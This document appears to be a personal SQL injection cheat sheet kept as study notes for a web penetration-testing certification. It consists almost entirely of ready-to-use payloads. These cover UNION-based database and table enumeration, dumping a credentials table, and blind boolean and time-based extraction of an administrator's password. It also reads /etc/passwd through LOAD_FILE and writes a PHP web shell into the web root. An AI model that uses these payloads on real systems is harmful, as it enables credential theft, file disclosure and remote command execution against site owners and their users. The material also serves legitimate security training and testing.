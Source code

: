 #CBBH PATH
# SQL Injection Cheat Sheet

## Cheat Sheet Reference
[SQL Injection Cheat Sheet by PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Finding the Vulnerable Query
- Check the URL after parameters, e.g., `?Abdullah=Abdullah`.
- Test login fields for potential injection points.

## Fixing the Query (Comments)
- Use `--` or `#` for comments in SQL queries.

## Common Payloads
```sql
' or 1=1 --
'--
```

## String Concatenation
```sql
' UNION SELECT NULL, username || '*' || password FROM users--
```

## Determining the Number of Columns
Using `UNION`:
- Ensure the number and order of columns match in all queries.
- Data types must be compatible.
```sql
cn' UNION SELECT NULL, NULL, NULL-- -
cn' UNION SELECT NULL, NULL, NULL, NULL-- -
UNION SELECT NULL, NULL, NULL, NULL FROM Abdullah-- -
```
Using `ORDER BY`:
```sql
' ORDER BY 1-- -
```

## Finding a Column Containing Text (Data Type)
- An error indicates the column is not a string type.
- No error indicates the column is a string type.
```sql
cn' UNION SELECT NULL, 'Abdullah', NULL, NULL-- -
UNION SELECT username, NULL, NULL, 'Abdullah' FROM Abdullah-- -
```

## Database Enumeration
- Fingerprint MySQL:
```sql
SELECT @@version;
SELECT SLEEP(5);
```
- Current database name:
```sql
cn' UNION SELECT 1, database(), 2, 3-- -
```
- List all databases:
```sql
cn' UNION SELECT 1, schema_name, 3, 4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
- List all tables in a specific database:
```sql
cn' UNION SELECT 1, TABLE_NAME, TABLE_SCHEMA, 4 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dev'-- -
```
- List all columns in a specific table:
```sql
cn' UNION SELECT 1, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='credentials'-- -
```
- Dump data from a table in another database:
```sql
cn' UNION SELECT 1, username, password, 4 FROM dev.credentials-- -
```

## Blind SQL Injection
### Finding Vulnerable Parameters (Conditional Responses)
- Look for identifiable responses from the web app, e.g., a welcome message.
- Test conditions:
```sql
' AND 1=1--  -- True query
' AND 1=0--  -- False query
```

### Confirm a Table Exists (Conditional Responses)
```sql
' AND (SELECT 'x' FROM users LIMIT 1)='x'--
```

### Confirm a Username Exists in a Table (Conditional Responses)
```sql
' AND (SELECT username FROM users WHERE username='administrator' LIMIT 1)='administrator'--
```

### Enumerating a Password (Conditional Responses)
1. Determine password length:
```sql
' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)='administrator'--
```
2. Extract each character sequentially:
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'--
```

### Time-Based Blind SQL Injection
- Introduce time delays:
```sql
' || (SELECT pg_sleep(10))--
```
- Confirm table existence:
```sql
' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```
- Determine password length:
```sql
' || (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```
- Extract each character sequentially:
```sql
' || (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```

## Privilege Escalation
- Find current user:
```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```
- Check for admin privileges:
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```
- Enumerate all user privileges:
```sql
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
- Access directories via MySQL:
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
```

## File Injection
- Read local file:
```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
- Write to a local file:
```sql
SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt';
```
- Write a web shell:
```sql
cn' UNION SELECT "",'<?php system($_REQUEST[Abdullah]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
```

